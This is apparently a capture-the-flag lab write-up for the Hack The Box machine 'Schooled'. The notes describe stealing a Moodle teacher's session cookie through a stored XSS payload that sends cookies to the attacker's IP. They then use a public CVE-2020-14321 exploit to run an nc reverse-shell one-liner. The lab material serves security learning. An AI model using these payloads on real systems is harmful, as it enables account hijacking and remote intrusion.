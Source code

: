 * Make a user account on the moodle site
* Looking around, see that out of all the classes you can only enroll in math
* Once enrolled, look at the announcements
* Find something interesting in the "Reminder for joining students" announcement
![[Pasted image 20210624184949.png]]
* He says that he'll be checking the moodlenet profiles, which is a setting we can edit
* Think this is XSS vector
* Start up special webserver on our box that logs all cookies of requests
* Inject some code to point them to our web server:

```php
<script>var i=new Image;i.src="http://10.10.14.18:8888/?"+document.cookie;</script>
```
* Get a call back with the desired cookie

```php
hunter@kali ~/htb/schooled/www$ python server.py
Started http server
2021-06-24 06:45 PM - 10.10.10.234      Mozilla/5.0 (X11; FreeBSD amd64; rv:86.0) Gecko/20100101 Firefox/86.0 
-----------------------------------------------------------------------------------------------------------------
MoodleSession                   ['ctudap8f027jc4cin81gdg8uqb']
```
* Go into firefox and set our cookie as this one we just got using the developer tools
![[Pasted image 20210624190411.png]]
* We are now signed in as user Manuel Phillips
* Doing some enumeration, we find that the moodle version is v3.9
* Go to the moodle release page where they detail security fixes, find a cve for our version
	* https://github.com/lanzt/CVE-2020-14321
* This exploit gives rce as long as you have a teacher account, which we do

```bash
hunter@kali ~/htb/schooled/src$ ./exploit.py 'http://moodle.schooled.htb/moodle' --cookie 'nhfpc0n8a244gpjfvplef3vslv' --cdomain 'moodle.schooled.htb' --cpath '/moodle/' -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.18 9001 >/tmp/f'
```

![[Pasted image 20210625152038.png]]
* Use the rce to get a reverse shell as user www